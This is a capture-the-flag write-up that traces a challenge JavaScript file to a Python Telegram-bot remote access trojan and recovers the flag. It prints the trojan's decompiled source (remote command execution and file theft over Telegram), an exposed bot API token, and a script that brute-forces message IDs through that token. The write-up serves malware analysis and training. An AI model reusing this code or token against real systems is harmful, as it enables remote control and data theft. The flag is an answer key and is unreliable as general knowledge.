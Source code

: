 # Confusing Javascript

***

## Reference

{% embed url="https://zachwong02.github.io/post/malware-finds-a-way/" %}

***

## Solution

Given a javascript file.&#x20;

`eb925a1589f0c98b5550d3f176a141386bd8285cab874b5ed650535d4a1c0f16.js: JavaScript source, Unicode text, UTF-8 text, with very long lines (766), with CRLF line terminators`



Notice that the filename looks like a hash. Initial step taken was putting the filename into VirusTotal.

Link [here](https://www.virustotal.com/gui/file/eb925a1589f0c98b5550d3f176a141386bd8285cab874b5ed650535d4a1c0f16/detection)

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

From here, the solution can go faster for this challenge without opening the javascript file.

The link provided by the VirusTotal contains a[ github repository with a malicious executable](https://github.com/Hrztrm/refactored-bassoon).&#x20;

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Download the `taskmanager.exe` for further analysis.

Upon analysing the file using **strings** command suggest that the executable file was built using Python.

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Decompile the executable to its source code using [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) .

`python3 pyinstxtractor.py taskmanager.exe`

There a lot of files in the executable. The most interesting one is **PythonTelegramBot.pyc**

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Extract the pyc file to source code using [pycdc](https://github.com/zrax/pycdc)

`pycdc PythonTelegramBot.pyc`

The source code should be something like below.

```python
# Source Generated with Decompyle++
# File: PythonTelegramBot.pyc (Python 3.10)

import telebot
import platform
import subprocess
BOT_API_KEY = '6610257712:AAFq_tYFDs5ZpWttF94KchKyzULBVQUW0PY'
telegram_user_id = 0x1724E8650
bot = telebot.TeleBot(BOT_API_KEY)

def verify_telegram_id(id):
    return telegram_user_id == id


def execute_system_command(cmd):
    max_message_length = 2048
    output = subprocess.getstatusoutput(cmd)
    if len(output[1]) > max_message_length:
        return str(output[1][:max_message_length])
    return None(output[1])


def begin(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    hostname = None('hostname')
    current_user = execute_system_command('whoami')
    response = f'''Running as: {hostname}/{current_user}'''
    bot.reply_to(message, response)

begin = bot.message_handler([
    'start'], **('commands',))(begin)

def injectFlag(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    Flag = None('type flag.txt')
    bot.reply_to(message, Flag)

injectFlag = bot.message_handler([
    'flag'], **('commands',))(injectFlag)

def view_file(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    if None(message.text.split(' ')) != 2:
        return None
    file_path = None.text.split(' ')[1]
    result = ''
    if platform.system() == 'Windows':
        result = execute_system_command(f'''type {file_path}''')
    else:
        result = execute_system_command(f'''cat {file_path}''')
    bot.reply_to(message, result)

view_file = bot.message_handler([
    'viewFile'], **('commands',))(view_file)

def download_file(message):
Unsupported opcode: RERAISE
    if not verify_telegram_id(message.from_user.id):
        return None
    if None(message.text.split(' ')) != 2:
        return None
    file_path = None.text.split(' ')[1]
# WARNING: Decompyle incomplete

download_file = bot.message_handler([
    'downloadFile'], **('commands',))(download_file)

def handle_document_upload(message):
Unsupported opcode: RERAISE
    if not verify_telegram_id(message.from_user.id):
        return None
# WARNING: Decompyle incomplete

handle_document_upload = bot.message_handler([
    'document'], **('content_types',))(handle_document_upload)

def handle_any_command(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    if None.text.startswith('/start'):
        return None
    response = None(message.text)
    bot.reply_to(message, response)

handle_any_command = bot.message_handler()(handle_any_command)
bot.infinity_polling()
```

Based on the code above, the assumption is that the flag is stored in a chat between the author and the bot.&#x20;

The specific message stored by the bot needs to be forwarded using the `forwardMessage` Telegram API call method. With the **bot API key** and **chat ID** available, the API request can be constructed once the missing part, which is the **message ID**, is found



The API request should look like this:

`https://api.telegram.org/bot<api_key>/forwardMessage?from_chat_id=<chat_id>&message_id=<message_id>&chat_id=<chat_id>`



Create a python script to brute force the **message id**.

```python
import requests

api_url = "https://api.telegram.org/bot{}/forwardMessage"

bot_token = "6610257712:AAFq_tYFDs5ZpWttF94KchKyzULBVQUW0PY"

from_chat_id = "6212716112"
chat_id = "6212716112"
start_message_id = 0

def brute_force_message_id():
    message_id = start_message_id
    while True:
        try:
            response = requests.post(
                api_url.format(bot_token),
                data={
                    "from_chat_id": from_chat_id,
                    "message_id": message_id,
                    "chat_id": chat_id
                }
            )
            if response.status_code == 200:
                response_data = response.json()
                if 'result' in response_data and 'ihack' in str(response_data):
                    print(f"Found 'ihack' in message ID {message_id}")
                    break
            else:
                print(f"Failed to forward message ID {message_id}: {response.status_code}")

        except requests.exceptions.RequestException as e:
            print(f"Error: {e}")
            break

        message_id += 1
        print(message_id)

if __name__ == "__main__":
    brute_force_message_id()
```



Then, message ID number 173 was received, and the request now appears as follows:

{% embed url="https://api.telegram.org/bot6610257712:AAFq_tYFDs5ZpWttF94KchKyzULBVQUW0PY/forwardMessage?from_chat_id=6212716112&message_id=173&chat_id=6212716112" %}

The flag will be shown in a json format as below

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

***

## Flag

ihack24{fr0m\_J4V45Cr1p7\_2\_73L39r4m}
